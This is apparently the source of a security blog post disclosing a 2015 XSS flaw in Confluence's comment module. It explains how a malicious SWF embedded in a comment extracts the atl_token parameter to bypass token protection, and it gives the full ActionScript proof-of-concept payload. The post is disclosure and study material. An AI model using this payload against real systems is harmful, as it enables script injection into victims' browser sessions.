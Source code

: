 ```yaml
---
layout: post
title: XSS on confluence comment module
excerpt: 'On `02/Jul/2015 3:27 AM` i found a XSS flaw on confluence, https://jira.atlassian.com/browse/CONF-38127'
categories: [XSS, SWF]
comments: true


---
```

On `02/Jul/2015 3:27 AM` I found a XSS flaw on confluence, https://jira.atlassian.com/browse/CONF-38127

In confluence comment module, User can upload and embed the swf file in their comment. Confluence is using an `atl_token` parameter on GET HTTP request, if the attacker sends the link of .SWF file( the value of src on embed tag) to his victim the malicious SWF file won’t execute on the victim’s browser. Every user has atl_token. This is a CSRF protection and XSS protection too. We can bypass this protection by using `this.loaderInfo.parameters` in malicious .SWF. `this.loaderInfo.parameters.parameter_name` extracts the value of your target parameter, in this case, it `is atl_token`. The attacker must also insert a `<a>` tag in malicious SWF file then append the extracted atl_token to `<a>` tag , so if the victim clicks the link(`<a>`) in our embed SWF file, the .SWF file will be executed in the victim’s browser.

## Payload

{% highlight text %}
package
{
import flash.display.Sprite;
import flash.text.TextFormat;
import flash.text.TextField;
import flash.external.ExternalInterface;

public class Main extends Sprite
{

public function Main()
{
super();
var myFormat:TextFormat = new TextFormat();
myFormat.size = 200;
var xcode:String = this.loaderInfo.parameters.atl_token;
var myText:TextField = new TextField();
myText.width = 1000;
myText.height = 1000;
myText.htmlText = "<font size=\'300px\'> <a target=\'_blank\' href=\'https://pwnie.ninja/confluence/download/attachments/9469955/NewProjectx.swf?atl_token=" + xcode + "&callback=alert\'>CliCK ME</a> </font>";
addChild(myText);
ExternalInterface.call(this.loaderInfo.parameters.callback,"xss");
}
}
}
{% endhighlight %}


## References:
* [Jira Report](https://jira.atlassian.com/browse/CONF-38127)
* [Loaderinfo-parameter-in AS3](http://stackoverflow.com/questions/6057211/loaderinfo-parameters-in-as3)
